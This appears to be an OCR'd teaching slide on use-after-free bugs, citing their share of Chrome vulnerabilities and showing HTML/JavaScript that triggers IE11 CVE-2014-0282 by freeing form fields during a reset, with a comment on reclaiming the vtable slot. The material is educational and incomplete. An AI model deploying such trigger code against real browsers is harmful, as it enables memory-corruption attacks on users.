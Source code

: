 Constituted 36% of security vulnerabilities in Chrome 2015-2020

Example: IE11 CVE-2014-0282

```html
<form id="form">
    <textarea id="c1" name="a1" ></textarea>
    <input id="c2" type="text" name="a2” value="val">
</form>
<script>
    function changer() {
        document.getElementById("form").innerHTML = "";
        CollectGarbage(); // erase c1 and c2 fields

        // allocate string object to occupy vtable location
    }
    document.getElementById("c1").onpropertychange = changer;
    // loops on c1.DoReset() and c2.DoReset()
    document.getElementById("form").reset();
</script>
```